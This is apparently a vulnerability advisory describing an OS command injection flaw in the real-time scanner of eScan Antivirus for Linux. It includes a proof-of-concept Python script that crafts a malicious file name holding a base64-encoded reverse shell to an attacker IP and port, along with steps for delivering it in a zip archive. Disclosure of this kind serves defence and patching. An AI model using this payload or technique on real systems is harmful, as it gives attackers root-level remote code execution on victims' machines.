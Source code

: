 # Description and Impact
Escan Antivirus for Linux has real-time protection program `rtscanner` run as system service. This program has a OS Command injection vulnerability in quarantine file mechanism. An attacker can send crafted file and gain remote code execution with highest privilege as soon as crafted file writes into victim's disk.

# Root-cause
1. `rtscanner` failed to quarantine a file that has name **>= 253** characters (max file name's length on Linux is 255). This program uses command `mv` to move file to quarantine folder.
2. `rtscanner` uses dangerous function `system` with unsanitized data.

![image](https://github.com/user-attachments/assets/b63d71ed-2c7e-49db-9d57-efe79099fd51)

3. By default, `/tmp/` and `/home/` are being monitored

![image](https://github.com/user-attachments/assets/f427f130-c92e-43cd-a3d2-db708cc46bb2)

An attacker can send any malicious file with crafted file name. As soon as crafted file writes into these folders, quarantine mechanism executes and malicious code command is executed with system's privilege.

In demotration bellow, I sent compressed file that contains malicious file to victim's machine. By default, compressed files are not being scanned by real-time scanner. Malicious code executes as soon as user uncompress downloaded file.

![image](https://github.com/user-attachments/assets/962d5187-a847-4131-9945-6fd254c7d39b)

*Important notes*:
- When decompress using `Extract here` feature, program `engrampa` extracts internal file into a folder if there's no folder. The format will be `<name of compressed file> <suffix>` where suffix is a number, like `(2)`, `(3)`. Meanwhile real-time scanner adds folder `<name of compressed file>` to **inotify**'s watch list. This is a logic bug in scanner's logic. Therefore, compressed file delivered to victim must contains internal folder that has the same name with zip file.
- Demotration shows malicious code execution when file is decompressed. In other attack scenarios, malicious code might be executed *as soon as crafted file is written into victim's system* without user's interactions.
- Servers that has file upload feature and eScan for Linux (configured to monitor uploaded files) are under great danger.

# Proof-of-concept
1. Create crafted file that executes bash redirection to make reverse shell. Python script:

```
MAX_LEN=253

# Payload to trigger reverse shell
# bash -c 'exec bash -i &>/dev/tcp/192.168.58.192/8888 <&1'
PAYLOAD=";echo YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTkyLjE2OC41OC4xOTIvODg4OCA8JjEnCg==|base64 -d|sh"
PREFIX="AA AA" # Doesn't really required. But it looks a little better
SUFFIX=" # "
CHUNK="A" * (MAX_LEN - len(PREFIX) - len(PAYLOAD) - len(SUFFIX))
NAME=PREFIX + PAYLOAD + SUFFIX + CHUNK

print("DEBUG: created file with len", len(NAME))

# Content to trigger quarantine action
CONTENT="X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*"

with open("/tmp/" + NAME, "w") as f:
    f.write(CONTENT)
```

2. Create compressed zip file that contain crafted file and move it to web server.

![image](https://github.com/user-attachments/assets/1f1a110d-f61f-421e-9d80-ee055a30bccf)

![image](https://github.com/user-attachments/assets/0a048f52-4473-4bb6-9e4e-c8b435870c44)

Attacker creates a listener and wait victim's download malicious file.

![image](https://github.com/user-attachments/assets/1f1fc670-1372-4476-b946-8164d14347e1)


3. Victim downloads zip file then extract

![image](https://github.com/user-attachments/assets/24482606-d03c-41ac-b7e0-43b9b3606feb)

![image](https://github.com/user-attachments/assets/70e2d760-c482-4ca2-814e-53af386f9958)

4. Attacker gains remote code execution

![image](https://github.com/user-attachments/assets/4b15a68f-af35-48f4-8e84-32e1260dfe6f)

![image](https://github.com/user-attachments/assets/b4720dfe-fac8-49e0-9772-e47222095b03)

*Important note*: If crafted file is quarantined, change `MAX_LEN` in python script to 255.
